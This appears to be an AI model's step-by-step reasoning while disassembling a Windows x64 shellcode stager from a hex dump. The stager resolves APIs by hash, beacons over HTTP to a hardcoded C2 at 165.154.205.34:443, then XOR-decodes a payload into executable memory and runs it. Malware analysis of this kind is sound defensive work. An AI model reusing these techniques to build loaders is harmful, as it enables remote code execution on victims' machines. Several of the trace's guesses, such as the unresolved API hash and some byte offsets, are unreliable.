0xb24 `7d d1` jge 0xaf7? Next 0xb26 + 0xffffffd1 = 0xaf7. Yes! So after recv returns >= 1, it jumps to 0xaf7, which is the XOR decode loop (`xor r8d,r8d; test eax; ... xor byte [rbx+...], 0x99`), then adds to total and loops back to recv at 0xb15. The initial `jmp 0xb15` skips decode until first recv. So it receives data into buffer, then decodes XOR 0x99 each received byte and accumulates. This is a downloader/shellcode stager: receive encoded shellcode, XOR decode with 0x99, write into RWX buffer, then execute? Let's see after loop:
At 0xb18? Let's parse from 0xb20:
0xb20? Actually 0xb1e call recv; 0xb21 `41 3b c5` cmp eax,r13d (1); 0xb24 `7d d1` jge 0xaf7; 0xb26 `48 8b cf` mov rcx,rdi (socket); 0xb29 `ff 95 98 00 00 00` call [rbp+0x98] (API G = hash 0x614d6e75, likely closesocket); 0xb2f `ff d3` call rbx (executes the allocated/decoded shellcode? rbx was set to second VirtualAlloc buffer at 0xae1 and never changed? Wait rbx is used as buffer pointer; but recv loop uses rbx? Actually `xor byte [rcx+rbx],0x99` where rbx = allocated buffer. At end `ff d3` call rbx -> execute decoded payload at allocated address. Yes.)
Then cleanup:
0xb31? `48 81 c4 18 0e 00 00 add rsp,0xe18`
restore regs, ret.
So this is a network downloader/stager: connects to hardcoded IP 165.154.205.34:443, sends HTTP GET beacon with query, receives XOR-encoded (0x99) payload over TCP, decodes it into RWX memory, and executes it. It likely uses `recv` until connection closes. It also logs? The log path was constructed but maybe not used. Let's revisit: It built log_de.log path, then called K=0x70f2fa31. If K maybe `DeleteFileA`? Wait if it fails exits? Need determine.
Actually maybe K is `CreateFileA` and the return is a file handle, not a boolean. If success (valid handle) continues; if `INVALID_HANDLE_VALUE` = -1, `test eax` = nonzero -> continues, not exits. If failure (0) exits. But they don't use handle. Could be `GetFileAttributesA`? Hmm.
What is the log file used for? It builds `GetCurrentDirectoryA` + "log_de." + "log" => "C:\current\...log_de.log" (maybe path separator issue). Then calls some API with rcx=path, edx=0. Could be `fopen(path, "rb")`? edx=0 -> mode pointer NULL. No. Could be `GetFileAttributesA` then if zero exit (file not found)? That would make program not run on first use. Could be K=`DeleteFileA` and test? On success DeleteFile returns nonzero; on failure zero. If delete fails, exits. That would also make first run exit because file doesn't exist. Unless they create the log file before? Not.
Maybe K is `CreateDirectoryA`? Takes path, lpSecurityAttributes in rdx=0. Return nonzero success, zero failure. If the directory doesn't exist, it would create it and continue; if exists, fails and exits. Path maybe "C:\...log_de.log" would be a directory name? Hmm.
Maybe K is `GetFileAttributesA` and if returns 0 (path not found) exit. That seems unlikely. Let's identify K via API hash manually? Could compute ROR13 hashes for common APIs and see if 0x70f2fa31 matches sum. Need know resolver hash formula: target = module_hash + function_hash (mod 2^32), with module hash computed over BaseDllName (UTF-16?) uppercased? Let's understand module hash. Then we can compute hashes for kernel32/ws2_32/msvcrt APIs and match. This is a fun manual cryptanalysis. But time/effort maybe. Could be useful for exact report. Let's try.
Resolver:
- It iterates modules in PEB InMemoryOrderModuleList. For each, r8 points to InMemoryOrderLinks at LDR_DATA_TABLE_ENTRY + 0x10? Wait PEB->Ldr in rdx ([PEB+0x18]); r8=[rdx+0x10] => InMemoryOrderModuleList (offset 0x10 of LDR). Entries are linked via InMemoryOrderLinks at offset 0x10? Actually LDR_DATA_TABLE_ENTRY: InLoadOrderLinks 0x0, InMemoryOrderLinks 0x10, InInitializationOrderLinks 0x20, DllBase 0x30. So r8 points to InMemoryOrderLinks. BaseDllName at +0x58 from DllBase? Wait [r8+0x30] with r8 = entry+0x10? If r8 points to InMemoryOrderLinks at entry+0x10, then DllBase = [r8+0x20]? But code uses [r8+0x30]. Hmm maybe r8 is entry base? Let's see:
`mov rdx,[rax+0x18]` PEB->Ldr
`mov r8,[rdx+0x10]` load first entry? Actually Ldr->InMemoryOrderModuleList is a LIST_ENTRY at offset 0x10; its Flink points to the InMemoryOrderLinks field of first entry. So r8 = entry+0x10.
Then `cmp [r8+0x30],r14` would be entry+0x40 = SizeOfImage, not DllBase. Hmm maybe offsets shifted because PEB->Ldr is at 0x18, not 0x60? Wait PEB->Ldr at 0x18 correct. LDR_DATA_TABLE_ENTRY on x64: InLoadOrderLinks 0x0, InMemoryOrderLinks 0x10, InInitializationOrderLinks 0x20, DllBase 0x30, EntryPoint 0x38, SizeOfImage 0x40, FullDllName 0x48, BaseDllName 0x58. If r8 = InMemoryOrderLinks pointer = entry+0x10, then DllBase at r8+0x20, BaseDllName at r8+0x48. Code uses [r8+0x30] as DllBase and [r8+0x58] as BaseDllName. That suggests r8 is entry base (offset 0), not links? Let's re-evaluate PEB->Ldr: `mov rdx,[rax+0x18]` then `mov r8,[rdx+0x10]`. Ldr->InMemoryOrderModuleList.Flink at Ldr+0x10 points to the **InMemoryOrderLinks** field (entry+0x10). So r8 = entry+0x10. But the code uses +0x30 -> entry+0x40 (SizeOfImage), and +0x58 -> entry+0x68 (probably not BaseDllName). Maybe I misremember offsets: On Windows 10 x64, LDR_DATA_TABLE_ENTRY? Let's check:
typedef struct _LDR_DATA_TABLE_ENTRY {
LIST_ENTRY InLoadOrderLinks; // 0x00
LIST_ENTRY InMemoryOrderLinks; // 0x10
LIST_ENTRY InInitializationOrderLinks; // 0x20
PVOID DllBase; // 0x30
PVOID EntryPoint; // 0x38
ULONG SizeOfImage; // 0x40
UNICODE_STRING FullDllName; // 0x48
UNICODE_STRING BaseDllName; // 0x58
...
}
If r8 = Entry+0x10, then DllBase at r8+0x20, BaseDllName at r8+0x48. Code uses +0x30 and +0x58, which would be if r8 = Entry+0x00. Therefore maybe `[rdx+0x10]` is **Ldr->InLoadOrderModuleList**? Wait PEB_LDR_DATA structure:
0x00 Length
0x04 Initialized
0x08 SsHandle
0x10 InLoadOrderModuleList
0x20 InMemoryOrderModuleList
0x30 InInitializationOrderModuleList.
So `[rdx+0x10]` is InLoadOrderModuleList.Flink, which points to entry+0x0 (InLoadOrderLinks). Then r8 = entry base! Yes. It uses InLoadOrder list. Then [r8+0x30]=DllBase, [r8+0x58]=BaseDllName. Correct.
So module name is UNICODE_STRING at entry+0x58: Length at r8+0x58, MaximumLength at +0x5a, Buffer at +0x60. It loads 16 bytes into xmm0 [r8+0x58], stores at [rsp] and [rsp+8]. Then `mov rax,[rsp]; shr rax,0x10` -> rax = MaximumLength? Let's layout qword at [rsp] = bytes 58-5f: Length (2), MaxLength (2), padding (4). Shifting right 16 bits yields MaxLength in low word and padding in high. `cmp r14w, ax` where r14=0, jae skip if 0 >= MaxLength? Wait `cmp r14w, ax` sets CF if r14 < ax. `jae` jumps if CF=0, i.e., r14 >= ax. Since r14=0, jae only if ax=0 (MaxLength=0), otherwise continue. So `ax` is MaxLength, not Length. Hmm then `movzx r10d, ax` uses MaxLength as character count, not length. Maybe they intended `shr rax,0x10` to get **Length**? Wait if `mov rax,[rsp]` loads 8 bytes starting at UNICODE_STRING, the low 16 bits are Length, next 16 are MaxLength. Shr 0x10 gives MaxLength in low 16. They then use MaxLength to loop, which is usually larger than Length (rounded), potentially reading past buffer. But maybe BaseDllName's MaximumLength == Length + 2? For module names, MaximumLength may equal Length + 2. If loop uses MaxLength, it includes null terminator, which hash of null adds 0; okay harmless. Actually if max length includes trailing null, loop over null too, adds nothing; fine. But `movzx r10d, ax` after shift gets max length. So it hashes all chars plus null. Works.
Hash: For each UTF-16 char? It reads bytes `movsx eax, byte [rcx]` and loops r10 times (max length includes null) with inc rcx by 1. It reads each **byte** of UTF-16 name, including zeros between letters! That's odd. It uppercases if byte >= 'a' subtract 0x20. So module hash is ROR13 over raw UTF-16LE bytes, including zero high bytes. Then compares `lea eax,[rbx+rdx]` where edx is module hash, ebx function hash. So target = module_hash + function_hash. We could compute if needed but high effort.
Common hash 0x70f2fa31 might match e.g. `DeleteFileA` in kernel32 or `fopen` in msvcrt. But which module? Resolver tries all loaded modules; hash includes module, so must match one. Can compute using script mentally? Too much.
Let's identify by behavior:
- C=0x6174a599 = connect
- B=0xe0df0fea = socket? Wait socket call at 0x6d? `ff d7` uses rdi = B (0xe0df0fea)? Let's re-evaluate registers:
At 0x4aa `48 8b f8` mov rdi, rax -> B (hash 0xe0df0fea)
At 0x4e6 `4c 8b f8` mov r15, rax -> F (0x5fc8d902)
So socket call rdi=B=0xe0df0fea. But earlier at 0x6d? call rdi for socket. Wait at 0x4a0 call hash 0xe0df0fea then store [rbp+0xa0]? No! Let's redo with exact:
At 0x48a: mov ecx,0x006b8029
0x48f: call resolver -> rax = A
0x494: mov ecx,0xe0df0fea
0x499: mov [rbp+0xa0], rax (A)
0x4a0: call resolver -> rax = B
0x4a5: mov ecx,0x6174a599
0x4aa: mov rdi, rax (B)
0x4ad: call resolver -> rax = C
0x4b2: mov ecx,0x5f38ebc2
0x4b7: mov r14, rax (C)
...
So rdi = B = 0xe0df0fea. At 0x6d4? socket call `ff d7` calls B. So B = socket.
r14 = C = 0x6174a599 = connect.
At 0x6fa call r13 = H = 0x803428a9 = gethostbyname.
At 0x709 call r12 = I = 0x4d7b1e12 = inet_addr.
At 0x73d call r14 = connect.
At 0x872 etc calls rsi = J = 0xd0eb608d = sprintf.
At 0x59c call rbx = K = 0x70f2fa31 (unknown).
At 0xa54 call [rbp+0xa8] = D = 0x5f38ebc2 = send.
At 0xa6c call r12 = [rbp+0x90] = E = 0xe553a458 = VirtualAlloc? But r12 was inet_addr earlier, overwritten at 0xa5a with [rbp+0x90] = E. Yes.
At 0xa70? call r15 = F = 0x5fc8d902 = recv.
At 0xb29 call [rbp+0x98] = G = 0x614d6e75 = closesocket.
At 0xb2f call rbx = second VirtualAlloc buffer (shellcode), not API.
So unresolved: K=0x70f2fa31, A=0x006b8029 WSAStartup, B socket, C connect, D send, E VirtualAlloc, F recv, G closesocket, H gethostbyname, I inet_addr, J sprintf.
K called with path and edx=0 before network. Could be `DeleteFileA` or `GetFileAttributesA` or `CreateFileA`. Let's infer from control flow:
At 0x59c call K, then `33 db xor ebx,ebx`, `85 c0 test eax,eax`, `0f 84 68 05 00 00 je 0xb0e`? Let's compute target: At 0x5a? line `85 c0 0f 84 68 05 00 00`. Instruction je at 0x5a? Target after 0xb? Let's map:
0x59c `33 d2` xor edx,edx
0x59e `48 8d 8d 90 02...` lea rcx,buffer
0x5a5 `ff d3` call rbx (K)
0x5a7 `33 db` xor ebx,ebx
0x5a9 `85 c0` test eax,eax
0x5ab `0f 84 68 05 00 00` je 0xb19? Compute next 0x5b1 + 0x568 = 0xb19. At 0xb19 is not cleanup? Wait cleanup starts 0xb31? Let's check. Total function epilogue at 0xb31 maybe. 0xb19 is inside recv loop! That can't be right. Did I miscompute: 0x5b1+0x568 = 0xb19. At 0xb19 `45 33 c9` part of recv loop, not clean. Maybe the je goes to 0xb19? That would be odd. Let's recalc bytes: `0f 84 68 05 00 00` at 0x5ab: next 0x5b1, disp 0x568 -> 0xb19. Hmm 0xb19 is `xor r9d,r9d` then recv with invalid rdi? That doesn't make sense. Maybe I have code offset wrong; perhaps `je` target is 0xb0e? Let's re-read line 0x5a0:
`000005a0: 00 c7 45 34 64 65 2e 00 c7 85 60 0d 00 00`
Wait 0x5a0 starts with 00, not code? Let's re-read original:
```
00000590: a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00
000005a0: 00 c7 45 34 64 65 2e 00 c7 85 60 0d 00 00
000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00
000005c0: 00 ff d3 33 db 85 c0 0f 84 68 05 00 00 ...
```
Ah! The call K happens at 0x5c3? Let's remap:
0x5b1..? `ff d6` at 0x5b? Line 0x5b0: `6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00`
0x5b0=6c
0x5b1=6f
0x5b2=67
0x5b3=00
0x5b4=ff
0x5b5=d6 call rsi (sprintf)
0x5b6=33
0x5b7=d2 xor edx,edx
0x5b8=48
0x5b9=8d
0x5ba=8d
0x5bb=90 02 00 00 (disp)
0x5bf? Wait `48 8d 8d 90 02 00 00` starts at 0x5b8, is 7 bytes -> ends 0x5be, next 0x5bf.
Line 0x5c0: `00 ff d3 33 db 85 c0 0f 84 68 05 00 00 ...`
At 0x5bf byte 00? Hmm let's lay:
0x5b8 48
0x5b9 8d
0x5ba 8d
0x5bb 90
0x5bc 02
0x5bd 00
0x5be 00
0x5bf 00? Actually line 0x5b0 has 16 bytes: 6c( b0) 6f b1 67 b2 00 b3 ff b4 d6 b5 33 b6 d2 b7 48 b8 8d b9 8d ba 90 bb 02 bc 00 bd 00 be 00 bf? Let's count: the line text `6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00` only 15 bytes? Wait user line:
`000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00` — hmm that's 14? Let's check original:
```
000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00
```
It might be truncated? Wait actual line in prompt:
`000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00` then next line `000005c0: 00 ff d3...` maybe line 0x5b0 has 16 bytes: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00 ... need 16; maybe I missed one. Let's look at original verbatim from user:
```
000005a0: 00 c7 45 34 64 65 2e 00 c7 85 60 0d 00 00
000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00
000005c0: 00 ff d3 33 db 85 c0 0f 84 68 05 00 00 ...
```
Actually each line should have 16 bytes. Line 0x5a0: `00 c7 45 34 64 65 2e 00 c7 85 60 0d 00 00` = 14 bytes? Hmm maybe copied incorrectly? Let's scroll to original prompt in this conversation:
At 0x590:
`00000590: a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00`
0x5a0:
`000005a0: 00 c7 45 34 64 65 2e 00 c7 85 60 0d 00 00`
0x5b0:
`000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00`
0x5c0:
`000005c0: 00 ff d3 33 db 85 c0 0f 84 68 05 00 00 48`
Wait the prompt exactly:
```
00000590: a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00
000005a0: 00 c7 45 34 64 65 2e 00 c7 85 60 0d 00 00
000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00
000005c0: 00 ff d3 33 db 85 c0 0f 84 68 05 00 00 48
```
Hold on, in the user's actual message above (scrolling):
```
00000590: a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00
000005a0: 00 c7 45 34 64 65 2e 00 c7 85 60 0d 00 00
000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00
000005c0: 00 ff d3 33 db 85 c0 0f 84 68 05 00 00 48
```
Wait line 0x590 as originally in prompt: `a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00` that's 14 bytes? Let's count: a0(1) c7 2 45 3 30 4 6c 5 6f 6 67 7 5f 8 48 9 8d 10 8d 11 90 12 02 13 00 14. Hmm only 14? It seems the dump lines may have 16 but I may be missing visual bytes. Let's check original block again from user text in prompt:
```
00000580: 8d 85 90 02 00 00 48 89 44 24 20 48 8d 55
00000590: a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00
000005a0: 00 c7 45 34 64 65 2e 00 c7 85 60 0d 00 00
000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00
000005c0: 00 ff d3 33 db 85 c0 0f 84 68 05 00 00 48
```
Actually the user's text at top:
`00000590: a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00` maybe there is no next `00`? It likely had 16 bytes but line wrapping? Let's use exact from prompt:
```
00000580: 8d 85 90 02 00 00 48 89 44 24 20 48 8d 55
00000590: a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00
000005a0: 00 c7 45 34 64 65 2e 00 c7 85 60 0d 00 00
000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00
000005c0: 00 ff d3 33 db 85 c0 0f 84 68 05 00 00 48
```
Hmm each line maybe 15? Let's count line 0x580: 8d 85 90 02 00 00 (6) 48 89 44 24 20 (4 =10) 48 8d 55 (3 =13) then next line should continue? Maybe some bytes omitted? Wait the original from prompt is:
```
00000580: 8d 85 90 02 00 00 48 89 44 24 20 48 8d 55
00000590: a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00
```
Line 0x580 has 15? `8d 85 90 02 00 00`=6, `48 89 44 24 20`=4 (10), `48 8d 55`=3 (13). It should have 16 bytes but only 13 shown. This suggests the prompt hex dump lines are actually less than 16? Wait the initial lines have 16. Maybe I'm losing bytes due to copy? Let's re-open original message in the conversation (I can scroll mentally). At 0x580 in user:
```
00000580: 8d 85 90 02 00 00 48 89 44 24 20 48 8d 55
00000590: a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00
```
Actually I see at 0x590 user text: `a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00` (14 bytes). Maybe the next byte `00` starts line 0x5a0, meaning line 0x590 has 15 bytes? The last byte of `lea rcx,[rbp+0x290]` is `00 00`? Let's see: `48 8d 8d 90 02 00 00` = 7 bytes. Starting at 0x596? If line 0x590 bytes: a0 c7 45 30 6c 6f 67 5f (8 bytes through 0x597), then 48 8d 8d 90 02 00 00 (7 bytes at 0x598-0x59e), then next byte at 0x59f? But line 0x5a0 starts `00`. So there is a byte at 0x59f = 00? The line 0x590 has 15 bytes? Hmm maybe the dump lines are 16 but we need include an extra 00 at end of 0x590: `... 02 00 00`? The user line originally includes `... 90 02 00` then next line `00 c7 ...`, so yes only 15? Could be a typo in the prompt, but not critical.
Let's not over-index on exact offsets; we can reconstruct behavior.
The key thing: K call at 0x5c? with path, returns, test, je likely error. Could be `DeleteFileA` and if not found jumps to end? But maybe the jump target is 0xb0e? Let's compute cleanup/error target. At 0xb0e? The epilogue maybe at 0xb31. If K fails, maybe jumps to cleanup at 0xb31? Need calculate correct je displacement maybe not 0x568 if offset. From text `0f 84 68 05 00 00` target displacement 0x568 from next instruction. If instruction at 0x5c2, next 0x5c8, +0x568 = 0xb30. That is epilogue! So likely K call is at 0x5c? and je to 0xb30 (cleanup). Good. So if K returns 0, exit/cleanup. So K is a function that must return nonzero to proceed. Could be `SetCurrentDirectoryA`? If path exists etc.
What path? It may be attempting to `SetCurrentDirectoryA("C:\...log_de.log")`? No.
Maybe K is `GetFileAttributesA` and if file exists returns attributes nonzero; if not found returns -1 (nonzero too). No zero only if attributes = 0 (unlikely).
K could be `CreateDirectoryA(path, NULL)` returns nonzero if created. If directory already exists, returns 0 -> program exits. That's plausible for a persistence marker? It builds current dir + "log_de.log" and creates a **directory**? Weird.
Maybe K is `LoadLibraryA` on `C:\...log_de.log`, expecting a DLL? No.
Maybe K is `SetFileAttributesA(path, 0)`? Returns nonzero.
Maybe K is `GetFileAttributesA`, and if file does not exist returns INVALID_FILE_ATTRIBUTES = 0xffffffff nonzero, so doesn't exit. If file exists with attributes 0? Rare.
Maybe K is `FindFirstFileA`? no.
Maybe K is `GetCurrentDirectory`? It takes two args? Wait K call has rcx=buffer, edx=0; could be `SetCurrentDirectoryA(lpPath)` one arg. If path is valid dir, succeeds. But path is log file.
Could be `CreateFileA(lpFileName, dwDesiredAccess=0, ...)`; desired access 0 is query attributes. It returns handle (nonzero) even for existing file. If file absent returns INVALID_HANDLE_VALUE (-1), test eax would be 0xffffffff nonzero => proceeds. So no.
Could be `DeleteFileA`: returns nonzero on success, zero on failure. If log file doesn't exist, returns zero -> exit. But maybe the file is known to exist? The program might be deployed with log_de.log? Unlikely and no file included.
Could K be `CreateDirectoryA`: if path doesn't exist, creates it and returns nonzero; if exists returns zero -> exit. Maybe expected first run. It creates a directory named "C:\...log_de.log" as an infection marker, then proceeds only if created? Then on subsequent runs exits. That could be a "single-instance" / anti-re-run mechanism. But why name log_de.log? Possibly a fake log file path used as a mutex/marker. It would call `CreateDirectoryA` with path, null security attrs. If already exists, fails and exits. That fits: a one-shot execution guard. But no evidence.
Alternatively K might be `CreateFileA` with `CREATE_NEW` disposition? Requires args; only rcx, rdx set, others garbage. Not.
Let's look at string "log_de.log": Maybe GetCurrentDirectory + "log_de." + "log" = "C:\pathlog_de.log". If there's no separator, it appends to directory path name. On typical current dir "C:\Users\...\Desktop" -> "C:\Users\...\Desktoplog_de.log". Could be accidental. Maybe the intended is "log_de.log" in current directory but missing "\". It might call `CreateFileA` or `DeleteFileA`. Hmm.
Could hash K=0x70f2fa31 correspond to `GetFileAttributesA` or `DeleteFileA`? We could compute manually with resolver formula if we know module hash. Maybe I can infer from known hash databases? There are common API hashes by "ROR13" but here sum of module+function. Perhaps not standard; can't recall.
Could compute module hash and API hash for likely functions manually with a script mentally? It's possible but laborious. Maybe not necessary. The detailed report can mention "calls a path-related function (likely DeleteFileA/CreateDirectoryA/GetFileAttributesA) with a generated log_de.log path; the exact function is resolved by hash" but should be confident. User asks what binary does; we can state uncertainty if needed, but detailed report should be accurate.
Let's fully decode code to know if K result used as file handle later. Search for rbx usage after 0x5c? rbx is set to zero at 0x5a7 (`xor ebx,ebx`) immediately after call, so K's return is discarded except test. This suggests K is a **check** or side-effect operation, not a handle. `DeleteFileA`, `CreateDirectoryA`, `SetCurrentDirectoryA`, `GetFileAttributesA`, `SetFileAttributesA`, `RemoveDirectoryA`, `CopyFileA` etc. Since result only used to decide exit, likely a self-check e.g. `GetFileAttributesA` and if attributes == 0 (success? no). Or `CreateDirectoryA` as one-shot mutex. Or `DeleteFileA` as cleanup.
Wait it built path then calls K with path and 0. If K = `GetFileAttributesA(path)`, it returns attributes or -1. Test for zero is weird. If K = `CreateFileA(path, 0, 0, NULL, OPEN_EXISTING, ...)` maybe returns handle or -1. Not.
If K = `CreateDirectoryA(path, NULL)`, returns nonzero on success. If succeeds, continue. That would create a directory "log_de.log" and then proceed. On subsequent runs, CreateDirectory fails (ERROR_ALREADY_EXISTS) and exits. That is plausible as a **single-instance guard**. But "log_de.log" as a directory name is odd but effective. However the code is a malware stager; a single-instance guard is plausible.
If K = `DeleteFileA`, if delete succeeds, continue; if fails, exit. That is an anti-forensics step but would fail first run. Maybe the file is created by another component beforehand? No.
If K = `SetCurrentDirectoryA`, it changes working dir to path, probably fails (not directory) -> exit; no.
Could be `GetFileAttributesA` with `INVALID_FILE_ATTRIBUTES` = -1, nonzero, so proceeds. If the file exists with attributes 0? Attributes are never 0 (FILE_ATTRIBUTE_NORMAL=0x80; read-only=1 etc), so always nonzero. Only if function fails with 0? It doesn't. So test zero would never exit; useless. Unless `GetFileAttributesA` returns 0 for success? No.
Maybe K is `RemoveDirectoryA`? returns nonzero success, zero failure. Same issue.
Maybe K = `LoadLibraryA` returns HMODULE nonzero on success, zero on failure. If path were a DLL, yes. But path "log_de.log" isn't. Unless the **current directory + "log_de." + "log"** is actually "C:\...\log_de.dll"? Wait "log_de." + "log" = "log_de.log", yes. Not DLL. Could string be "log_de." and stack arg "log" but maybe format `%s%s%s` with buffer and "log_de." and "log" => "C:\cwd\log_de.log". Yes.
Maybe K=LoadLibraryA on the **log file**, which could be a DLL renamed .log? Malware could load a DLL named log_de.log from current dir. But no, it's before network.
Maybe K = `SetFileAttributesA` to hide/clear attributes, returns nonzero. Could fail if file missing -> exit.
Let's search memory: API hash formula sum of module and function; hash K=0x70f2fa31. We can compute if we guess module. Let's try manual hash for kernel32.dll and a few APIs? Need exact algorithm: module name from BaseDllName UTF-16LE, loop max length bytes, uppercase bytes if >= 'a' (subtract 0x20). ROR13 after each byte? Code:
```
edx=0
for each byte c:
edx = ror(edx, 0xd) (before adding c)
if c >= 'a': c -= 0x20
edx += c
```
Wait instruction order:
`0f be 01` movsx eax, byte [rcx]
`c1 ca 0d` ror edx,0xd
`80 39 61` cmp byte [rcx],0x61
`7c 03` jl +3
`83 c2 e0` add edx,-0x20
`03 d0` add edx,eax
So c in eax. If byte >= 'a', it subtracts 0x20 from edx, then adds original c. Net add c-0x20 (uppercase) for lower-case. It does this for each byte including high zero bytes. So module hash over UTF-16 bytes. For kernel32.dll UTF-16LE bytes include null after each char. That changes hash.
Function name hash: `ebx=0; for each char c until null: ror ebx,0xd; add ebx,c` (no uppercase). Then target = module_hash + function_hash.
Could compute for module "KERNEL32.dll" UTF-16 with zeros. Let's maybe compute to identify K? This is lengthy but possible with modular arithmetic. But we need module base names loaded: likely kernel32, ws2_32, msvcrt, user32. The hash constants could be checked if we had lists. No external tools allowed, but manual maybe. Let's see if I can use reasoning: Hash resolution loop starts with module list and computes module hash over BaseDllName (UTF-16). The first API call A=0x006b8029 is WSAStartup from ws2_32; users know. We could compute ws2_32 module hash and WSAStartup function hash to verify formula, then derive module hashes and search for K via known function hashes. But mentally computing dozens is error-prone.
Maybe no need exact K. Report can say "it constructs a log file path and calls an API through hash (appears to be a file-existence/creation check) before proceeding; if the call returns zero it exits." That's detailed enough.
But perhaps binary is a known stager: "Windows/x64 Download and Execute" with hardcoded IP 165.154.205.34, port 443, HTTP GET, User-Agent Firefox 48, XOR 0x99. Could identify malware family? Maybe "AsyncRAT"? The URI `/?a=w64&fh=<host>&t=ws_&p=443` looks like a **PowerShell Empire stager**? Let's recall. Cobalt Strike? Metasploit? There is "Donut"? The query params `a=w64&fh=...&t=ws_&p=443` might be "Sliver" or "Havoc"? Let's think.
The hardcoded IP 165.154.205.34 maybe a known malware C2. Could be from a challenge. The binary sends a GET request with query:
`GET /?a=w64&fh=<IP>&t=ws_&p=443 HTTP/1.1`
Host header, UA Firefox 48, then receives XOR 0x99 encoded payload and executes. This is a **downloader** / "shellcode loader". The `log_de.log` path maybe a mutex/log. The `w64`, `ws_`, `p=443` maybe **"Windows 64-bit, WinSock, port"**. `fh` maybe "first host"? It's a beacon to request stage2.
Let's reconstruct the network protocol:
- Hardcoded C2 IP string split to evade: 165.154.205.34, port 443.
- Resolve APIs via hash.
- WSAStartup 2.2.
- socket(AF_INET, SOCK_STREAM, IPPROTO_TCP).
- Setup sockaddr_in: family AF_INET, port htons(443) by storing bytes 01 bb, address from gethostbyname or inet_addr.
- connect with retry every 10s (Sleep 10000) if failure.
- Build HTTP request:
- "GET /?a" + [0x210] + [0x1d0] + [0x190]
- 0x210 = sprintf("=%s&fh=", "w64") -> "=w64&fh="
- 0x1d0 = sprintf("%s&t=%s&", host, "ws_") -> "165.154.205.34&t=ws_&"
- 0x190 = sprintf("p=%d HT", port) -> "p=443 HT"
- So request line: `GET /?a=w64&fh=165.154.205.34&t=ws_&p=443 HTTP/1.1` after appending `TP/1.1\r\n`.
- Host header: `Host: 165.154.205.34:443\r\n`
- UA: split pieces -> likely `User-Agent: Mozilla/5.0 (Windows NT 6.1; r v:48.0 ) Geck o/2010 0101 F irefox /48.0` (with extra spaces due to split) or maybe exact "rv:48.0) Gecko/20100101 Firefox/48.0" if I misread. Need decide. Let's re-evaluate leading spaces based on the code maybe the fragments are used with `%s%s%s...` and each leading byte may be part of previous? The strings:
- [rbp+0x10] = " o/2010" (leading space)
- [rbp+0x08] = " 0101 F" (leading space)
- [rbp+0x00] = " irefox"
- [rbp-0x50] = " /48.0"
The combined from these: " o/2010 0101 F irefox /48.0". But the UA part before is "... ) Geck". Concatenate: "... ) Geck o/2010 0101 F irefox /48.0". Extra spaces. It is possible the string fragments themselves are written such that spaces are intentional because they merged segments from a **space-separated** string? Let's check the exact UA expected with these fragments if no leading spaces: "Gecko/20100101 Firefox/48.0". The code fragments would be "o/2010", "101 F", "irefox", "/48.0" — note the first group " o/2010" has leading space and its last char '0'; second " 0101 F" leading space and last char 'F'? Wait " 0101 F" is 6 chars: space, 0,1,0,1, space, F? Actually c7 45 08 20 30 31 30 = bytes " 010", then c7 45 0c 31 20 46 00 = "1 F\0" -> combined " 0101 F": space,0,1,0,1,space,F. So it has **two** spaces? It starts with space and has a space before F. The desired "101 F" (from "20100101 Firefox") is "101 F" = no leading space, but a space before F. So the leading space is extra. Similarly " irefox" leading space extra; desired "irefox" (after "F") no leading. Hmm all chunks after "Geck" have leading space, perhaps because they were split with a delimiter that added spaces and the code mistakenly includes them. Yet maybe the strings are not concatenated in that order? Let's look at the format for the third group: r8=rbp+0x10 " o/2010", r9=rbp+0x08 " 0101 F", arg3=rbp+0x00 " irefox", arg4=rbp-0x50 " /48.0". That definitely yields spaces. Unless `%s` has width specifier that skips? No.
Could be anti-string obfuscation where they intentionally inserted spaces that are removed by server? No.
Maybe the first characters are not spaces but `0x20` is actually an **ASCII space** used as separator in a format like `"%s%s"`? It would still be in output. It may be a bug in the generated shellcode but not critical to C2.
Wait maybe I incorrectly mapped the format at rsp+0x30: It is built at 0x910:
`c7 44 24 30 25 73 25 73` -> "%s%s"
`c7 44 24 34 25 73 25 73` -> overlapping at +0x34 -> "%s%s%s%s"
`88 5c 24 38` null. Yes.
What if `rsi` is not `sprintf` but `snprintf`? Still same. Maybe it's `strcat`? If function takes (dest, src1, src2,...), no. But we know rsi used with buffer, format, args, so sprintf.
Maybe the fragments are not intended to form a valid UA; it just needs to look like traffic.
Let's reconstruct the full request in report with caveat "approximately" or exact from code:
`GET /?a=w64&fh=165.154.205.34&t=ws_&p=443 HTTP/1.1`
`Host: 165.154.205.34:443`
`User-Agent: Mozilla/5.0 (Windows NT 6.1; r v:48.0 ) Geck o/2010 0101 F irefox /48.0`? That looks so wrong that maybe I should double-check the leading spaces in fragments by examining memory offsets: `c7 45 20 20 76 3a 34` = bytes 0x20,0x76,0x3a,0x34 -> " v:4". But perhaps the **first byte** 0x20 is actually a leftover from previous string at rbp+0x1f? Wait strings are not null-terminated at start? They write at rbp+0x20, but the preceding string at rbp+0x1? The previous part at rbp+0x18 is "GET " (4 bytes + null). At rbp+0x1c = '/', '?','a',0. rbp+0x20 is separate. The byte at rbp+0x1f is null from previous, so no.
